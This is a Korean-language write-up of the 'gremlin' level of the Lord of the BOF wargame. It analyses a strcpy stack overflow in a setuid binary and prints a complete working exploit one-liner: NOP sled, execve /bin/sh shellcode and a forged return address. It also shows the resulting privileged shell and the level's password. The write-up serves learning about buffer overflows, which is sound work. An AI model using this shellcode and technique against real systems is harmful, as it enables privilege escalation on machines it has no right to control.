 ```yaml
---
title: "LOB simple bof Write-Up"
tags: [lob]
categories: [System]
---
```


# Index

1. [](#)

* * *

## 문제 분석

LEVEL 1 계정으로 서버에 접속하면 setuid, setgid가 설정된 실행파일과 소스코드 파일이 존재하는 것을 확인할 수 있습니다.

```
[gate@localhost gate]$ ls -l
total 16
-rwsr-sr-x    1 gremlin  gremlin     11987 Feb 26  2010 gremlin
-rw-rw-r--    1 gate     gate          272 Mar 29  2010 gremlin.c
```

가장 먼저 프로그램을 실행해보면 다음과 같은 내용이 출력됩니다.

```
[gate@localhost gate]$ ./gremlin 
argv error
```

`argv error`가 출력되는 것을 보아 프로그램을 실행할 때 전달해줄 인자가 필요한 것으로 보입니다. 문자열 인수를 전달하여 실행해본 결과 아래와 같이 readback 되는 것을 확인할 수 있습니다.

```
[gate@localhost gate]$ ./gremlin TEST
TEST
```

인자를 전달 받는 부분에서 Overflow가 발생할 것이라는 점을 예상할 수 있었습니다.

## 소스코드 확인

주어진 소스코드는 아래와 같이 작성되어 있었습니다.

```c
/*
	The Lord of the BOF : The Fellowship of the BOF 
	- gremlin
	- simple BOF
*/
 
int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```

앞서 프로그램의 동작을 통해 확인하였듯이 인자의 수가 2개 이하일 경우 error message를 출력 후 실행을 종료합니다. 기본적으로 프로그램은 실행될 때 자신의 실행 경로를 argument로 전달하므로 추가적으로 하나만 더 전달하면 되는 것을 알 수 있습니다.

조건을 만족하여 실행될 경우 입력받은 argument를 buffer 변수로 복사합니다. 이때 strcpy를 이용하여 Buffer overflow가 발생할 수 있음을 알 수 있습니다.

## Exploit

프로그램 내에 별도의 shell 실행 함수는 없었기에 직접 shellcode를 삽입 후 RET 주소를 변조할 필요가 있어보였습니다. buffer 변수의 크기가 256 Byte이며 SFP 4 Byte 이후 그 다음 4 Byte가 RET 주소임을 확인할 수 있었습니다.

획득한 정보를 사용하여 아래와 같은 형태로 payload를 구성하였었습니다.

```
NOP Shield(235 Byte) + Shellcode(25 Byte) + Forged RET Address(4 Byte)
```

그러나 첫 시도를 하였을 때 제대로 RET 주소의 변조가 되지 않았고, 찾아본 결과 LOB 환경 구성에 사용된 bash version 때문에 `0xff`를 `0x00`과 같게 인식한다는 것을 알 수 있었습니다.

RET 주소에 `0xff`가 사용되기 때문에 이를 수정하기 위해서는 bash2를 사용하여 진행해야 한다는 것까지 확인할 수 있었습니다. [참조 링크](https://dokhakdubini.tistory.com/208)

Bash2로 실행 후, buffer의 시작 주소를 구하여 다음과 같이 실행한 결과 bash shell을 획득할 수 있었습니다.

```
[gate@localhost gate]$ ./gremlin `python -c 'print("\x90"*110+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"\x90"*125+"\x08\xf9\xff\xbf")'`

1󿿐h//shh/bin⏓󿲒°
               ̀ 
bash$ 
bash$ id
uid=500(gate) gid=500(gate) euid=501(gremlin) egid=501(gremlin) groups=500(gate)
bash$ my-pass
euid = 501
hello bof world
```
